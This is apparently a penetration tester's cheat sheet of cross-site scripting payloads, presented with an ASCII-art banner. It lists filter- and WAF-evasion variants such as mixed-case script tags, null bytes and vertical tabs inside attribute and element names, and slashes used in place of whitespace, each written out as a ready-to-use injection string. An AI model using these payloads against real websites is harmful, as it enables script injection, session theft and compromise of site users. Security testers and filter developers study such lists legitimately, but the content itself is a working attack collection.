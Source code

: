  _____ _          _   _          __   _______ _____   _____ _                _       _               _   
|  __ \ |        | | | |         \ \ / /  ___/  ___| /  __ \ |              | |     | |             | |  
| |  \/ |__   ___| |_| |_  ___    \ V /\ `--.\ `--.  | /  \/ |__   ___  __ _| |_ ___| |__   ___  ___| |_ 
| | __| '_ \ / _ \ __| __|/ _ \   /   \ `--. \`--. \ | |   | '_ \ / _ \/ _` | __/ __| '_ \ / _ \/ _ \ __|
| |_\ \ | | |  __/ |_| |_| (_) | / /^\ |\__/ /\__/ / | \__/\ | | |  __/ (_| | |_\__ \ | | |  __/  __/ |_ 
 \____/_| |_|\___|\__|\__|\___/  \/   \|____/\____/   \____/_| |_|\___|\__,_|\__|___/_| |_|\___|\___|\__|
 
A ghetto collection of XSS payloads that I find to be useful during penetration tests, especially when faced with WAFs or application-based black-list filtering, but feel free to disagree or shoot your AK-74 in the air.
                                                                                                        
Simple character manipulations.  
Note that I use hexadecimal to represent characters that you probably can't type.  For example, \x00 equals a null byte, but you'll need to encode this properly depending on the context (URL encoding \x00 = %00).

HaRdc0r3 caS3 s3nsit1vITy bYpa55!
<sCrIpt>alert(1)</ScRipt>
<iMg srC=1 lAnGuAGE=VbS oNeRroR=mSgbOx(1)>

Null-byte character between HTML attribute name and equal sign (IE, Safari).
<img src='1' onerror\x00=alert(0) />

Slash character between HTML attribute name and equal sign (IE, Firefox, Chrome, Safari).
<img src='1' onerror/=alert(0) />

Vertical tab between HTML attribute name and equal sign (IE, Safari).
<img src='1' onerror\x0b=alert(0) />

Null-byte character between equal sign and JavaScript code (IE).
<img src='1' onerror=\x00alert(0) />

Null-byte character between characters of HTML attribute names (IE).
<img src='1' o\x00nerr\x00or=alert(0) />

Null-byte character before characters of HTML element names (IE).
<\x00img src='1' onerror=alert(0) />

Null-byte character after characters of HTML element names (IE, Safari).
<script\x00>alert(1)</script>

Null-byte character between characters of HTML element names (IE).
<i\x00mg src='1' onerror=alert(0) />

Use slashes instead of whitespace (IE, Firefox, Chrome, Safari).
<img/src='1'/onerror=alert(0)>

Use vertical tabs instead of whitespace (IE, Safari).
<img\x0bsrc='1'\x0bonerror=alert(0)>
